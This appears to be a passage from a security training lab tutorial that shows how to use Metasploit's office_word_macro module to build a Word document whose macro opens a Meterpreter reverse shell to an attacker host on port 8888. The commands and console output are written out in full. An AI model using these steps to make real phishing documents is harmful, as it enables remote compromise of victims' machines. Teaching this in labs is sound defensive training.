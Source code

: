 ## Creating the Malicious Document

The first step would be to embed a malicious macro within the document. Alternatively, you can use the Metasploit Framework to create such a document, as this would spare us the need for a system with MS Office.

You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:

- Open a new terminal window and run **msfconsole** to start the Metasploit Framework
- **set payload windows/meterpreter/reverse_tcp** specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
- **use exploit/multi/fileformat/office_word_macro** specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- set **LHOST CONNECTION_IP** specifies the IP address of the attacker’s system, **CONNECTION_IP** in this case is the IP of the AttackBox
- set **LPORT 8888** specifies the port number you are going to listen on for incoming connections on the AttackBox
- **show options** shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- **exploit** generates a macro and embeds it in a document
- **exit** to quit and return to the terminal

In the terminal below, you can see the execution of the above steps.

```console
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/fileformat/office_word_macro) > show options

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CUSTOMTEMPLATE                   no        A docx file that will be used as a template to build the exploit
   FILENAME        msf.docm         yes       The Office document macro file (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows
```